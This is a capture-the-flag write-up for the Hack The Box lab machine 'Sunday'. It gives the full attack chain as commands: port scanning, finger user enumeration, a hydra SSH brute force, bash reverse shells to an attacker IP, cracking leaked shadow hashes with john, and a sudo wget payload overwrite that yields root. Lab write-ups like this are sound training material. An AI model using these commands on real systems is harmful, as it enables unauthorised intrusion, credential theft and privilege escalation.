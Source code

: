# Sunday

# Scanning

```bash
masscan sudo masscan -e tun0 --open -p 1-65535 --max-rate 1000 10.10.10.76

nmap -n -Pn -sC -sV -p 79,111,22022,34825,35830 10.10.10.76 -oN targeted
```
![1717](1717.png)

![1701.png](1701.png)

# 79

```bash
finger-user-enum.pl -U /usr/share/SecLists/Usernames/Names/names.txt -t 10.10.10.76
```

![1957](1957.png)

output:

sammy@10.10.10.76: sammy			console
sunny@10.10.10.76: sunny				pts/3

# 22022 ssh

## hydra
```bash
hydra -L users.txt -P /usr/share/SecLists/Passwords/probable-v2-top1575.txt -t 64 -s 22022 10.10.10.76 ssh
```

> login: sunny   password: sunday

![1953](1953.png)

## ssh
```bash
ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
```
![1942](1942.png)

too slow so... I used a reverse shell
```bash
ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1 -t 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'
```

cat /backup/shadow.backup

```txt
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

## john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![203514](203514.png)

cooldude!

```bash
ssh sammy@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1 -t 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'
```

### attacker machine
we create a script in bash like this to make a reverse shell in root back to our machine
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.14/8888 0>&1
```
and start an http server in python
```bash
sudo python3 -m http.server 80 
```

### victim machine in user sammy
```bash
sudo wget http://10.10.14.14/shell.sh -O /root/troll
```
### now in the user sunny
```bash
sudo /root/troll
```

## flags
```bash
/export/home/sammy/Desktop/user.txt
/root/root.txt
```

